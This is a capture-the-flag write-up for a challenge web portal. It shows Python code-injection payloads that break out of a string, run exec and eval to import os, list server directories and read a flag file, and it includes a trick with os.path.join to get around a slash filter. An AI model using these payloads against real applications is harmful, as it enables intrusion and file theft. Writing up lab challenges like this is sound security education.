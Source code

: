 # Streamlining portal NG (4)

Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is on [http://user-info-ng.mysterious-delivery.tcc](http://user-info-ng.mysterious-delivery.tcc).

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!

## Hints

- Use VPN to get access to the web.

## Solution

The solution is almost the same as it was with [Streamlining portal (3)](04-corporate-websites/01a-streamlining-portal/README.md)

Let's check source code with `" + str(open("/app/app.py").read()) + "`

Oh wait, it is not working.

![not found](not-found.png)

After a while I figured out that if the string contains `/`, then the server returns 404.

Using `" + str(eval(str(exec("import os;x=os")))) + str(x.listdir("app")) + "` we can see that `/app` directory is same as in [Streamlining portal (3)](04-corporate-websites/01a-streamlining-portal/README.md).

![app directory](app-directory.png)

Let's use some of my python knowledge, instead of `app/FLAG` I will use `os.path.join("app", "FLAG")`.

`" + str(eval(str(exec("import os;x=os")))) + str(x.listdir(x.path.join("app", "FLAG"))) + "`

![FLAG directory](app-flag-directory.png)

Now just open the `flag.txt` file.

`" + str(eval(str(exec("import os;x=os")))) + str(open(x.path.join("app", "FLAG", "flag.txt")).read()) + "`

![flag](flag.png)

`FLAG{hvIM-3aty-R39h-dOZ4}`
